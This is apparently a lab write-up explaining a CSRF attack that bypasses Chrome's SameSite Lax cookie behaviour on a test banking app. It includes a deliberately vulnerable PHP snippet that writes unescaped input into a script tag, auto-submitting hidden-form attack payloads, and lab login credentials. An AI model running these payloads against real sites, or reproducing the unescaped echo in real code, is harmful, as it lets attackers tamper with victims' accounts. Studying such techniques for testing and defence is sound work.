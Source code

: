 After reviewing the code, we can see that there is an `isBanned` cookie that is set after logging in. The value of the cookie determines if the user is banned or not and displays him a message if he is banned. Our objective is to change the value of the cookie once the user clicks on the malicious link. Here is the server-side code that performs the validation:


```php
if (!isset($_COOKIE['isBanned'])) { echo('&#60;script&#62;alert("isBanned cookie not found in request");&#60;/script&#62;'); 	exit(); }
if (isset($_POST['isBanned'])) {
	$status=$_POST['isBanned'];
     echo('<script>document.cookie="isBanned='.$status.'";</script>'); 
}
```

- There is a POST API call to `index.php` that accepts a parameter `isBanned` and sets the cookie's value. However, the server-side script expects the cookie (isBanned) to avoid any CSRF attack.
- If there is a cross-site request to the page, we cannot execute the script to create the cookie directly, as there won't be an `isBanned` cookie in our request.
- Let's try this. Log in again to the bank app using the username `GB82MYBANK5699` and password `GB82MYBANK5697`. As we log in, the script will update the value of `isBanned` cookie, so we need to wait for **2 minutes** here, otherwise, it will be forwarded till 2 minutes window.
- After **2 minutes**, open the mail titled Test Scenario - LAX+POST.

- The email consists of two learning buttons; the first will make a POST request to `index.php` to update the `isBanned` cookie value.
- The first button uses the following code:

```javascript
<script>
function launchAttack(){ setTimeout(function(){bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form>
```

- This is because the `isBanned` cookie was not forwarded by the browser during the request.  
- So, what is the solution here? We can exploit the Chrome feature that sends the cookies in each web request if modified in the last **2 minutes**. As a pentester, it is essential to understand each web request and response. The `isBanned` cookie value is updated in two instances, once during login and the other during logout.
- We can chain the process to make the user visit the logout link; once he is logged out and the `isBanned` cookie is updated, we have a 2-minute window to call `index.php` to update the isBanned cookie value.
- Here is the code that will take the user to the logout page and then make a call to `index.php` with the updated `isBanned` cookie value.
- 

```javascript
<script>
function launchAttackSuccess(){
let win = window.open("http://mybank.thm:8080/logout.php",'');
setTimeout(function(){win.close();bank.submit()},1000)
}
</script>
<form style="display:none" name="bank" 
method=post action="http://mybank.thm:8080/index.php">
<input name="isBanned" value="true">
<input type="submit">
</form> 
```
- Click on the `Successful Attack` button, which will first log out the user, then make a POST request to `index.php`, and update the `isBanned` cookie value. Chrome will forward the cookie in the request as it is updated in less than **2 minutes**.